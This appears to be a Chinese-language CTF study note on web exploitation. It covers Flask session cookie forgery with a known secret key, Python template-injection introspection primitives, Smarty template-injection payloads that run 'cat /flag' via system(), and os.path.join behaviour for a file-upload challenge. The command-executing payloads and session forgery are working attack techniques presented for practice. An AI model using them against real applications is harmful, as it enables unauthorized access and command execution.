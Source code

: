 ##  session伪造

**可以使用Wappalyzer 看看网站构造**

```nginx
# 使用flask_session_cookie_manager3.py进行解码看看
# 就是需要寻找到secret_key

# 解码
python3 flask_session_cookie_manager3.py 
decode -c 'eyJuYW1lIjoiMTIzIn0.ZICAzQ.I5lx6d3ZDDNkVbRdhgozyotzxXU' -s "LitCTF"

# 编码
python3 flask_session_cookie_manager3.py encode -s 'LitCTF' -t '{"name":"admin"}'
```







## 模版注入

**==详细==**：https://xz.aliyun.com/t/9584#toc-32

### 0、基础知识

> ==flash模板注入可利用的Python模块==

1.   **subprocess.Popen**
2.   **os.wrap_close**
3.   **warnings.catch_warnings**
4.   **class 'site._Printer'**

>   常用搭配方式：
>
>   1.   `__class__`列出对象的属性
>   2.   `__class__.__mro__`找到object属性的位置
>   3.   `__class__.__mro__[object位置下标].__subclasses__()`列出所有属性

-   `__class__：对象的属性，返回对象的类型`
-   `__mro__：类的属性，返回包含类的所有父亲元组`
-   `__base__：类的属性，返回类所继承的基类`
-   `__globals__：函数的属性，返回一个字典（每个函数都有）`
    -   里面有当前空间下能使用的模块、方法、全局变量
-   `__init__：类的初始化方法`
-   `__subclasses__()：类的属性，子类的列表`
-   `__import__：`
    -   结构：`__improt__(<module name>)`
    -   功能：返回一个模块：`a = __import__("os")`
-   `exec`
    -   结构：`exec(<python code>)`
    -   功能：运行Python代码，`exec(''' import os ''')`
-   `open`
    -   结构：`open(<file path>)`
    -   功能：返回一个file对象，`open("flag.txt","r")`
-   `_getitem__`
    -   结构：`[1,2,3].__getitem__(2) == 3`   `{"a":1}.__getitem__("a") == 1`
    -   功能：根据list的index返回对应元素    根据key名，返回字典中对应的value
-   `pop`
    -   结构：
        -   `[1,2,3].pop(0) == 1`		
            -   返回list的第0个元素，并且list的元素减少	
        -   `{"a":1}.pop("a") == 1`
            -   返回dict的key对应的value



### Smary

> 题目地址：https://www.nssctf.cn/problem/5

```nginx
# 基于X-Forwarded-For的模版注入,单双引号不区别
{if system('cat /flag')}{/if}
{if show_source('/flag')}{/if}
{system("cat /flag")}
{{system('cat /flag')}}

```



## 文件上传

### os.path.join()函数

> 题目地址：https://www.nssctf.cn/problem/2025

```nginx
# 函数的用处，常用路径拼接
首字母没有包含 ' \ ' 则会自己加上
如果首字母是 ' / ' 会保留原型

Path1 = 'home'
Path2 = '/develop'
Path3 = 'code'
Path10 = Path1 + Path2 + Path3
Path20 = os.path.join(Path1,Path2,Path3)
print ('Path10 = ',Path10)
print ('Path20 = ',Path20)
# Path10 = home/developcode
# Path20 = /develop\code
```

